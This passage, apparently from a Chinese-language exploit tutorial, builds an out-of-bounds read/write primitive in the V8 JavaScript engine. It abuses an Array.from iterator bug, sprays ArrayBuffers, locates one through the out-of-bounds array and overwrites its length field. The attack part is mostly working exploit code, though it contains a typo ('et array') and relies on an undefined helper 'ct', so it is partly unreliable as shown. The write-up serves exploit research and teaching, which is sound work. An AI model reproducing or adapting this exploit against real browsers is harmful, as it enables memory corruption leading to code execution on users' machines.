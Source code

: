 在找到可控的ArrayBuffer对象之后，我们可以通过修改ArrayBuffer的length值，然后重新遍历存放ArrayBuffer的数组，确定具体可控对象，然后实现oob read&amp;write。

```
let oobArray = [1.1];  //让oobArray为float类型 方便之后的读取写入
let arrays=[];                                
let maxSize = 1028 * 8;                        //8224    
var a;        
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ =&gt; ( 
  {
    counter : 0,
    next() {
      let result = 1.1;
    this.counter++;
      if (this.counter &gt; maxSize) {         
     oobArray.length=1;    // lenght！=0 避免GC彻底回收，Element会被指向一个空指针，不在原来的地址范围。
    /*布置ArrayBuffer对象*/
  for(let i=0;i&lt;100;i++)
    {
        //let array=new ArrayBuffer(0xbeef); 
        et array=new ArrayBuffer(0x512); //创建length=0xbeef的ArrayBuffer
        arrays.push(array);        //将BufferArray放入数组（疑问：数组会对GC的回收有什么影响？）
        //%DebugPrint(array);    //Debug用
    }        
        return {done: true};
      } else {
        return {value: result, done: false};
      }
    }
  }
) });

/*寻找和确定ArrayBuffer对象*/
let backing_store;
let kbitfield;
let buf_index;
for(let i=0;i&lt;=maxSize;i++){let x=oobArray[i]}; //GC
/*找到oobArry可控的ArrayBuffer*/
for(let i=0;i&lt;maxSize;i++)
{
    let val=ct.f2i(oobArray[i]);
    //if(val===0xbeef00000000)
  if(val===0x51200000000)
    {
        backing_store=i+1;
        kbitfield=backing_store+1;
        console.log("[*]find target ArrayBuffer in oobArray number ["+i+"]");
        oobArray[i]=ct.i2f(0xbeaf00000000); //修改length值
        break;
    }
}
/*确定我们可控ArrayBuffer的ID*/
for(let i=0;i&lt;100;i++)
{
    //console.log(arrays[i].bytelength);
    if(arrays[i].byteLength===0xbeaf){
           console.log("[*]find target ArrayBuffer number ["+i+"]");
        buf_index=i;    
    }    
}
```
